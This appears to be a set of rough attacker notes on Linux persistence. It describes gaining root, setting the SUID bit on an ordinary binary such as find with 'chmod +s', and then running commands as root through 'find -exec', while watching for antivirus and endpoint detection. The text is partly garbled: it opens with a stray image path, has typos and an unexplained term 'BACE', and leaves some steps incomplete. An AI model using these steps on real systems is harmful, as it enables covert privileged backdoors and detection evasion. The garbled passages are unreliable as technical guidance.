 # Metadata on files
People don't want to be leaving their back door files on host. So they get root >> change harmless binaries to execute commands with

# Things to be aware of that could trigger failure
* Endpoint could think its malicious
* behavior issue with endpoint
* anvtivirus on the host could trigger a warning

# Binaries that allow arbitrary code execution
* find / -name "*.gif" - this finds all GIFs on all of your computer
* below is how you use find to execute your commands
  * touch /tmp/foobar
  * find /temp/ -name "foobar" -exec id \;
  * rm -rf /tmp/foobar
* Other binaries that can allow you to execute commands: 
* chmod +s /usr/bin/find
touch /tmp/foobar
find /tmp/

# Strategy
1. Find a BACE
2. chmod +s BACE
3. execute commands as root with that binary

